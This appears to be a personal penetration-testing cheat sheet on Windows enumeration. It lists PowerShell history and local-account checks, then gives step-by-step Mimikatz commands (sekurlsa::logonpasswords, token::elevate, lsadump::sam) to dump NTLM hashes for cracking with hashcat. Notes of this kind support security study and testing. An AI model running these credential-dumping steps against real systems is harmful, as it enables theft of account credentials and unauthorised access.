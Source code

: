```yaml
---
title: OS Enumeration
updated: 2025-04-30 04:44:30Z
created: 2025-04-28 07:00:04Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


Check Powershell history
`Get-History`
`(Get-PSReadlineOption).HistorySavePath`

Check for **local accounts** that are **enabled** on the computer:
`Get-LocalUser | Where-Object { $_.Enabled -eq $true } | Select-Object Name, LastLogon, Description`

* * *
## mimikatz
.Extract SAM passwords
1. Run `mimikatz.exe` as **Administrator**
2. `privilege::debug` enables **SeDebugPrivilege** access rights.
"**SeDebugPrivilege**" allows a process (like Mimikatz) to access and manipulate other processes, even ones running as SYSTEM. It's required to read memory from protected processes like lsass.exe (where Windows stores user credentials).

It’s critical to perform actions like **sekurlsa::logonpasswords**, which dumps passwords and hashes.
3. Run `token::elevate` to elevate to SYSTEM user privileges.
4. Run `lsadump::sam` to extract the NTLM hashes from the SAM.
5. Copy the HASH entry to a file **sam.hash**
6. Crack with hashcat (see 06 - CRACKING | Hashcat)




